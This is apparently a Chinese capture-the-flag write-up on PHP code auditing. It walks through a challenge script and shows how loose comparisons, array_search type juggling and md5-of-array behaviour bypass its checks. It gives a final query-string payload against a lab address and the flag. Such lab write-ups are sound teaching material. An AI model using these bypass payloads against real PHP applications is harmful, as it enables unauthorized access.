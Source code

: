 # PHP
## **【原理】**
php漏洞
## **【目的】**
php代码审计
## **【环境】**
php
## **【步骤】**
首先理解代码的意思
$a=(array)json_decode(@$_GET['sju'])  //get方式得到sju的参数值//
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    } //要求sju值里面要有一个键名是bar1的键值与2016比较且大于2016//
if(is_array(@$a["bar2"])){
        if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
        $pos = array_search("sju", $a["bar2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["bar2"] as $key=>$val){
            $val==="sju"?die("nope"):NULL;
        }
        $v2=1; //要求sju值里面有个键名为bar2且其键值为一个长度等于5的数组且第一个值也为数组//
 $c=@$_GET['c4t'];
$d=@$_GET['d09'];
if ($_GET['c4t'] != $_GET['d09']) {
        if (md5($_GET['c4t']) === md5($_GET['d09'])) {
        $v3=1; //要求c4t!=d09并且md5(c4t)===md5(d09),所以可以使用数组进行绕过：c4t[]=1&d09[]=2
 最后payload为：192.168.19.60:13009/?sju={"bar1":"2017a","bar2":[[1],1,2,3,0]}&c4t[]=1&d09[]=2
 ## **【flag】**
 SJU{phP_Is_th3_b35t}
